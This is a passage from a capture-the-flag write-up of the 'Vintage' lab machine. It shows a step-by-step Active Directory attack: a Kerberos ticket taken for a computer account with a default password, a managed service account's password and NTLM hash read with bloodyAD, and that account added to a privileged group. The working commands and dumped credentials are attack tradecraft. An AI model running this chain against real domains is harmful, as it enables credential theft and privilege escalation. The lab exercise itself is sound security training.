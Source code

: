When a new computer account of this type is configured, its password is set based on its name (i.e. lowercase computer name). Let's verify if we can get a TGT by using the standard password for this computer account.

```console
$ getTGT.py vintage.htb/FS01$ -dc-ip 10.10.11.45

Password:fs01
[*] Saving ticket in FS01$.ccache
```

We managed to save the machine's TGT meaning this is indeed a valid password. Looking at the results from BloodHound again, this account can read the password for the GMSA `GMSA01$`. And the latter can also add itself it the `SERVICEMANAGERS` group.

![](/assets/images/writeups/vintage/BH-FS01.png)

There are several methods we can use to read this password, but the easiest method is to use `BloodyAD.py`. Again we need to do our authentication over Kerberos by using the TGT of `FS01$`.

```console
$ bloodyAD -k ccache=FS01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```

We got the NTLM hash and the Base64 encoded password. We again retreive the TGT of the GMSA account and add ourself to the `SERVICEMANAGERS` group.

```console
$ getTGT.py vintage.htb/GMSA01$ -dc-ip 10.10.11.45 -hashes ':a317f224b45046c1446372c4dc06ae53'

[*] Saving ticket in GMSA01$.ccache

$  bloodyAD -k ccache=GMSA01$.ccache --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 add groupMember SERVICEMANAGERS GMSA01$
[+] GMSA01$ added to SERVICEMANAGERS
```
